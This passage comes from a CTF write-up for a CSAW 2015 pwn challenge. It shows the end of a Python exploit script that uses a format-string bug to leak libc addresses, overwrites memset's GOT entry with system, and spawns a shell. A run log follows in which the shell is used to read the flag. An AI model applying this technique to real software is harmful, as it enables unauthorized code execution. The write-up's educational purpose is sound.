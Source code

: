 ```python
    print "[+] system @ " + hex(system)
    
    print "[+] overwriting memset@got with system the hard way"
    write(0x804b03c, system)
    
    print "[+] deleting element"
    
    sendln('2')
    readtil('remove?')
    sendln('/bin/sh')

    t=telnetlib.Telnet()
    t.sock =s 
    t.interact()
    

    s.close()
pwn()
```

And in action:

```
bas@tritonal:~/bin/csaw15/pwn250$ python ./pwn250poc.py 
leaking 0x804b020
[+] malloc @ 0xf7619b30
[+] libc @ 0xf75a4000
[+] system @ 0xf75e3cd0
waiting...
[+] overwriting memset@got with system the hard way
writing 0x804b03c
['ffade868']
0x68
 
    Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
[+] deleting element
Name to remove? /bin/sh
id
uid=1001(ctf) gid=1001(ctf) groups=1001(ctf)
cd 
ls
contacts_54f3188f64e548565bc1b87d7aa07427
flag
cat flag
flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```

Gotta love format string vulnerabilities. The flag was `flag{f0rm47_s7r1ng5_4r3_fun_57uff}`. 
